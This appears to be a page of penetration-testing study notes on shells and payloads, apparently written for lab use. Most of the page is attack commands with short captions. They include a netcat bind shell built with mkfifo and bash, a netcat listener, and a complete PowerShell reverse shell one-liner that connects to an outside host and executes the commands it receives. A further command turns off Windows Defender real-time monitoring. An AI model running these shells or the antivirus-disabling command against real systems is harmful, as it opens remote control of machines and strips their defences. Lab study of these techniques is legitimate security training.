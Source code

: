 # Shells & Payloads

## Bind Shells

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>With a bind shell, the <code>target</code> system has a listener started and awaits a connection from a pentester's system (attack box).</p></figcaption></figure>

## Basic Bind Shell with Netcat

### **Server - Binding a Bash shell to the TCP session**

{% code overflow="wrap" %}
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### **Client - Connecting to bind shell on target**

{% code overflow="wrap" %}
```
nc -nv 10.129.41.200 7777
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Reverse Shells

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption><p>With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.</p></figcaption></figure>

## Simple Reverse Shell in Windows

### Server (attack box)

{% code overflow="wrap" %}
```
sudo nc -lvnp 443
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

### **Client (target)**

{% code overflow="wrap" %}
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption><p> <code>Windows Defender antivirus</code> (<code>AV</code>) software stopped the execution of the code. </p></figcaption></figure>

### **Disable AV**

{% code overflow="wrap" %}
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption><p>To disable the antivirus through the <code>Virus &#x26; threat protection settings</code> or by using this command in an administrative PowerShell console. Once AV is disabled, attempt to execute the code again.</p></figcaption></figure>
